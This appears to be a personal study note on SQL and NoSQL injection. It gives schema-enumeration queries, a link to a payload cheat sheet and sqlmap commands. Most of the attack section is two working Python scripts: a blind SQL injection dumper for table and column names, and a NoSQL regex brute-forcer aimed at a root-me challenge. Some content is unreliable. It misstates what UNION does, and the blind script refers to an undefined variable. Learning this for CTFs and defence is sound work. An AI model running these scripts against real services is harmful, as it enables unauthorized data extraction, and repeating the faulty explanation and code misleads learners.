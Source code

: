 # SQL Injection
## 1. SQL
### 1.1. Overview
- syntax to comment: `--`, `/* */`, ...
- union: 
```
SELECT column_name(s) FROM table1 -> clause 1
UNION
SELECT column_name(s) FROM table2 -> clause 2
```
-> when clause 1 fail, will execute clause 2
- group_concat: string concatenation

### 1.2. Sqlite
- `select sql from sqlite_master`
-> show schema

### 1.3. Mysql
- `select table_name from information_schema.tables where table_schema=database()`
-> show name of tables
- `select column_name from information_schema.columns where table_name=table_name`
-> show columns name of that table

### 1.4. Cheetsheet 
`https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection`

## 2. Attack
### 2.1. SQL injection boolean
- injection to query to bypass 

### 2.2. SQL injection blind
- base on response as like as error, timeout to collect data
example:
```
import requests, string

characters = string.printable
s = requests.session()

target = "http://0.0.0.0/api/sqliBlind"

def get_one_char(payload):
    for c in characters:
        response = s.post(target,json = {
            'username' : f"a' or ({payload})={ord(c)}  -- -",
            'password' : 'foo'
            }).json()
        if response['data'] == True:
            return c
    return None

def dump_tables():
    tables = ""
    payload = "select ascii(mid(group_concat(table_name),{index},1)) from information_schema.tables where table_schema=database()"
    index = 1
    c = get_one_char(payload.format(index=index))
    while c != None:
        tables, index = table + c , index + 1
        print('[+] table = ',tables)
        c = get_one_char(payload.format(index=index))
    return tables

def dump_columns(table_name):
    columns = ""
    payload = "select ascii(mid(group_concat(column_name),{index},1)) from information_schema.columns where table_name='%s'"%(table_name)
    index = 1
    c = get_one_char(payload.format(index=index))
    while c != None:
        columns, index = columns + c, index + 1 
        c = get_one_char(payload.format(index=index))
    return columns

table = dump_tables()

print('\n-----------\n[*] tables found: ', table)

for t in table.split(','):
    print(f'[*] columns of {t} found: ',dump_columns(t))
```

### 2.3. Nosql injection
```
import requests, string
arr = string.digits + string.ascii_letters + "_@{}-/()!\"$%=^[]:;"
req = requests.session()

def countchar() -> int:
    for i in range(2,50):
        res = req.get('http://challenge01.root-me.org/web-serveur/ch48/index.php?chall_name=nosqlblind&flag[$regex]=%s'%(i*'.')).text
        if 'This is not a valid flag for the'  in res:    
            return i 

def findpassword( n : int) -> str:
    password = ''
    for _ in range(n):
        for c in arr:
            if 'Yeah this is the flag for' in req.get('http://challenge01.root-me.org/web-serveur/ch48/index.php?chall_name=nosqlblind&flag[$regex]=^' + password + c).text:
                print('[+] ',password)
                password += c
                break
    return password


n = countchar()
print('length password ',n)
print(findpassword(n))
```
### 2.4. Tool sqlmap
- install: `brew install sqlmap`
- use: `sqlmap -r file_request --batch -D database --tables`
